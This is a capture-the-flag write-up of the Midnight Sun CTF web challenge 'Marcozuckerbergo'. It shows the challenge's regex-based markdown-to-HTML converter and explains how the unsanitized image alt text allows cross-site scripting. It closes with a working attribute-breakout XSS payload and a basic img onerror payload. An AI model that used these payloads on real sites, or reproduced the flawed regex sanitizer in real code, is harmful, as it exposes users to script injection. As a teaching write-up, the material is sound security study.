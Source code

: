 ## Marcozuckerbergo

* Category  : Web
* Problem	: Someone told me to use a lib, but real developers rock regex one-liners.
* URL		: `http://marcodowno-01.play.midnightsunctf.se:3001`

----

So it was a xss challenge where we were suppose to xss at `http://marcodowno-01.play.midnightsunctf.se:3001/markdown?input=test` and submit solution with xss payload.
On Viewing the source we have regex to convert mark down to HTML using following code:
```javascript
function markdown(text){
  text = text
  .replace(/[<]/g, '')
  .replace(/----/g,'<hr>')
  .replace(/> ?([^\n]+)/g, '<blockquote>$1</blockquote>')
  .replace(/\*\*([^*]+)\*\*/g, '<b>$1</b>')
  .replace(/__([^_]+)__/g, '<b>$1</b>')
  .replace(/\*([^\s][^*]+)\*/g, '<i>$1</i>')
  .replace(/\* ([^*]+)/g, '<li>$1</li>')
  .replace(/##### ([^#\n]+)/g, '<h5>$1</h5>')
  .replace(/#### ([^#\n]+)/g, '<h4>$1</h4>')
  .replace(/### ([^#\n]+)/g, '<h3>$1</h3>')
  .replace(/## ([^#\n]+)/g, '<h2>$1</h2>')
  .replace(/# ([^#\n]+)/g, '<h1>$1</h1>')
  .replace(/(?<!\()(https?:\/\/[a-zA-Z0-9./?#-]+)/g, '<a href="$1">$1</a>')
  .replace(/!\[([^\]]+)\]\((https?:\/\/[a-zA-Z0-9./?#]+)\)/g, '<img src="$2" alt="$1"/>')
  .replace(/(?<!!)\[([^\]]+)\]\((https?:\/\/[a-zA-Z0-9./?#-]+)\)/g, '<a href="$2">$1</a>')
  .replace(/`([^`]+)`/g, '<code>$1</code>')
  .replace(/```([^`]+)```/g, '<code>$1</code>')
  .replace(/\n/g, "<br>");
  return text;
}
```

One of the basic xss payload is `<img src='x' onerror=alert('1')>`. so on looking into the regex that evaluate mark-down to  `img`, we have

```
.replace(/!\[([^\]]+)\]\((https?:\/\/[a-zA-Z0-9./?#]+)\)/g, '<img src="$2" alt="$1"/>')
```


Which converts `![imageAlt](https://site.com)` to `<img src="https://site.com" alt="imageAlt">`.  Here because imageAlt wasn't sanitized we can easily have xss with:
```
![ " onerror=alert(1) x=" ](https://x0m) 
```
which evalues to `<img src="https://x0m" alt="" onerror="alert(1)" x="">`
